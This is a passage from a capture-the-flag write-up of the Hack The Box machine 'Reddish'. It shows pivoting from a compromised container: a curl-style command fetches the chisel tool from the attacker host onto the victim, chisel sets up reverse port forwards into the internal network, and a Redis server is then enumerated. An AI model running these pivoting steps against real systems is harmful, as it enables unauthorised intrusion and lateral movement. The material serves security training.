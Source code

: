 To investigate more about the open ports on the other hosts, chisel is downloaded into the nodered container using the `__curl` function.

```bash
root@nodered:/tmp/workspace_nodered_container## __curl http://10.10.14.26/Pivoting/Linux/chisel_1.7.3_linux_amd64 > chisel
```

On the nodered container set the execution bit for chisel

```bash
chmod +x chisel
./chisel
```

Steps for using chisel for remote port forwarding
1. start a chisel server on the attacker machine.


```bash
./chisel_1.7.3_linux_amd64 server --reverse -p 1234
```

2. on the victim machine define the host and port to be forwarded


```bash
./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80
```

> This means that the port 80 of 172.19.0.2 will be the port 81 of port 10.10.14.26, the decision to use the port 81 is because the port 80 was occupied by "python3 -m http.server" and port 8080 by "burpsuite", always be sure to use a port that is not occupied by another application.

Now that the port 80 of 172.19.0.2 is the port 81 it is possible to access the application through localhost:81 or 127.0.0.1:81

![port 81 forward](/assets/img/htb/reddish/port81forward.png)

The source code found by inspecting the site using google chrome inspect element functionality shows that the site has a function that every time someone visits the index the number of "hits" increase, it also shows notes of backing up a database.

![source code](assets/img/htb/reddish/source_container_1.png)

Proceeding to enumerate the redis server of 172.19.0.3.

Forward the port through chisel to the attacker machine.

```bash
root@nodered:/tmp/workspace_nodered_container## ./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80 R:6379:172.19.0.3:6379
```

Access to redis using redis-cli.

```bash
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> 
```
Further enumeration of the database show that 172.19.0.3 is storing the number of hits of the website in 172.19.0.2
```bash
127.0.0.1:6379> info keyspace
## Keyspace
db0:keys=1,expires=0,avg_ttl=0
127.0.0.1:6379[1]> select 0
OK
127.0.0.1:6379> keys *
1) "hits"
127.0.0.1:6379> get hits
"2"
127.0.0.1:6379>
```